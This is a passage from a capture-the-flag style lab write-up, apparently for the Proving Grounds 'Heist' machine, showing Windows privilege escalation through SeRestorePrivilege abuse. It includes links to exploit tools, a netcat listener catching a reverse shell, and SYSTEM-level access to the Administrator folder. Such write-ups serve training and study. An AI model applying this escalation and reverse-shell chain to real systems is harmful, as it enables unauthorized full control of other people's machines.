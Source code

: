 ```powershell
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
*Evil-WinRM* PS C:\Users\svc_apache$>
```
{: .nolineno}

Now I got the privileges as <mark style="background: #ABF7F7A6;">SeRestorePrivilege</mark> as Enabled so lets abuse that 🔻

![Image](Pasted%20image%2020240617005222.png)

I found some exploitable binaries and steps to abuse that like 🔻

 ⏩ https://github.com/xct/SeRestoreAbuse

you can download the executable file from here
 ⏩ https://github.com/dxnboy/redteam

![Image](Pasted%20image%2020240617004952.png)

```powershell
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Heist]
└─$ rlwrap nc -lvnp 443        
listening on [any] 443 ...
connect to [192.168.45.214] from (UNKNOWN) [192.168.182.165] 50382
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd C:\USers\Administrator
cd C:\USers\Administrator

C:\Users\Administrator>
C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 5C30-DCD7
C:.
+---3D Objects
+---Contacts
+---Desktop
|       proof.txt
|       
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---Pictures
+---Saved Games
+---Searches
```